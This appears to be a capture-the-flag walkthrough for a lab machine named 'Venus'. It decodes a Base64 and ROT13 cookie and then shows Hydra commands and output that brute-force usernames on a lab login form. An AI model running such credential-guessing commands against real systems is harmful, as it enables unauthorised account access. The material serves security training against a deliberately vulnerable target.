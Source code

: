 If you highlight the value from the value of `auth="Z3Vlc3Q6dGhyZmc="`, you will see on the inspector tab, that Base64 is definitely has been used for the encoding. 

Username:password
guest:thrfg

[ROT13 decoder: Decrypt and convert ROT13 to text - cryptii](https://cryptii.com/pipes/rot13-decoder)

You can clearly see that the input `thrfg` gives the output `guest` with ROT13


![Venus](guest_decodeBase64.png)




--- 

# Exploitation 👨‍💻
#Exploitation #Hydra #RockYou #Username #Password #BruteForce #Login #LoginAttack 

First we need an invalid login attempt, to brute force the login

enumerate the username

- Open in a private tab `CTRL + Shift + P`
- write an invalid username/password
- Copy `Invalid username.`

```
hydra -L /usr/share/wordlists/rockyou.txt -p pass -s 8080 192.168.56.117 http-post-form "/:username=guest&password=guest"

hydra -L /usr/share/wordlists/rockyou.txt -p pass -s 8080 192.168.56.117 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
```

![Venus](kali_hydra.png)

```
┌──(kali㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/rockyou.txt -p pass -s 8080 192.168.56.117 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:38:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.117:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 2351.00 tries/min, 2351 tries in 00:01h, 14342048 to do in 101:41h, 16 active
[8080][http-post-form] host: 192.168.56.117   login: venus   password: pass
```